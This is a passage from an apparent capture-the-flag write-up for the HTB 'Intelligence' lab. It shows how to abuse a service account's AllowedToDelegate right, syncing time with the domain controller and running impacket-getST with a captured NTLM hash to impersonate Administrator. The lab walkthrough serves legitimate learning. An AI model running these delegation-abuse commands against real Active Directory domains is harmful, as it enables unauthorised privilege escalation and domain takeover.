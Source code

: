 I tried to crack the hash but that failed, so since this is a service account we can create a silver ticket
since this user has `AllowedToDelegate` on the DC:
!["AllowedToDelegate"](assets/AllowedToDelegate.png)

To get the SPN we can access Node properties of svc_int user in Bloodhound

Before we carry out the exploit we should sync our time with the DC:
```bash
$ sudo rdate -n <ip of DC>
```

```bash
impacket-getST -spn www/dc.intelligence.htb -dc-ip 10.129.156.112 -impersonate Administrator intelligence.htb/svc_int -hashes :fb49fcd5ffc6fefa70503e08c9cd8261
```